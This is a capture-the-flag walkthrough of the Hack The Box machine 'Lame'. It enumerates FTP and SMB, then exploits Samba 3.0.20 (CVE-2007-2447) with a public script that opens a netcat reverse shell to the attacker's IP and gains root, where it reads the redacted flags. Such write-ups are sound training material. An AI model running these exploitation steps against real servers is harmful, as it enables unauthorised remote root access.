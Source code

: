 ```yaml
---
title: Lame
layout: default
parent: Hack the Box OSCP Like
nav_order: 1
has_children: false
---
```


![Lame](images/lame.png)

<button type="button" name="button" class="btn">#Samba</button>

# Discovery
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ sudo nmap -sC -sV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 20:25 BST
Nmap scan report for 10.10.10.3
Host is up (0.0054s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-23T15:25:54-04:00
|_clock-skew: mean: 2h00m23s, deviation: 2h49m44s, median: 21s
```

## FTP
Connected to FTP Anonymously, doesn't appear to be anything there (only directories were . and .. navigating around didn't show anything promising)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

## SMB
SMBMap seems to find something interesting in tmp ('oh noes!' - probably because it's anonymous read/write)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Recursive file search shows a few files inside of TMP:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -R -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	.\tmp\*
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	.
	dw--w--w--                0 Sat Oct 31 06:33:57 2020	..
	dr--r--r--                0 Thu Jun 23 20:47:03 2022	.ICE-unix
	dw--w--w--                0 Thu Jun 23 20:47:31 2022	vmware-root
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.X11-unix
	fw--w--w--               11 Thu Jun 23 20:47:28 2022	.X0-lock
	fw--w--w--                0 Thu Jun 23 20:48:05 2022	5563.jsvc_up
	fw--w--w--             1600 Thu Jun 23 20:47:01 2022	vgauthsvclog.txt.0
	.\tmp\.X11-unix\*
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	..
	fr--r--r--                0 Thu Jun 23 20:47:28 2022	X0
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

This command will allow us to download files, vgauth stood out, but perhaps I'm not looking at the right thing as it is empty:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gedit 10.10.10.3-tmpvgauthsvclog.txt.0
```

# Exploitation
---
## SAMBA
We saw that the server itself is running 3.0.20 (Samba) so let's read about any potential exploits.

Identified this link: [## CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447
>The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

Performed some searchsploit checks and found this as well
[Link](https://www.exploit-db.com/exploits/16320)
```bash
[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit samba 3.0.20
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Securi | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map scr | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -p 16320
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
File Type: Ruby script, ASCII text

Copied EDB-ID #16320's path to the clipboard
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -w 16320
---------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                              |  URL
---------------------------------------------------------------------------- --------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasp | [Link](https://www.exploit-db.com/exploits/16320)
---------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looks like these are all metasploit, and we're trying to avoid its usage for the exam.
Found a github python script to do the manual exploitation: [Link](https://github.com/amriunix/CVE-2007-2447)
This video explains how to walk through exploitation (both manual and via metasploit) [Link](https://www.youtube.com/watch?v=HPP70Bx0Eck)

First attempt was a failure because I had not installed the PYSMB module in order to import the SMBConnection:
```bash
└──╼ [★]$ python -m pip install pysmb
Collecting pysmb
  Downloading pysmb-1.2.8.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 5.3 MB/s
---
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
```

Ran the script, with appropriate perameters, all while running a netcat listener in a separate terminal, and can see that the connection was established:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ python3 usermap_script.py 10.10.10.3 445 10.10.14.8 5000
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ nc -nvlp 5000
listening on [any] 5000 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 34178
```

# Privilege Escalation
---
1. Identified linux version/type via uname (GNU)
2. Identified current user (root)
3. Ran a find search to locate 'user.txt' (which is typically our user flag)
4. Cat'd out User.txt and pulled the flag
5. Cd'd back out into the root user folder and saw root.txt
6. Cat'd out root.txt and pulled the flag

```bash
whoami
root
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
find /* -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
[redacted]
find /* -name root.txt
/root/root.txt
cat /root/root.txt
[redacted]
```
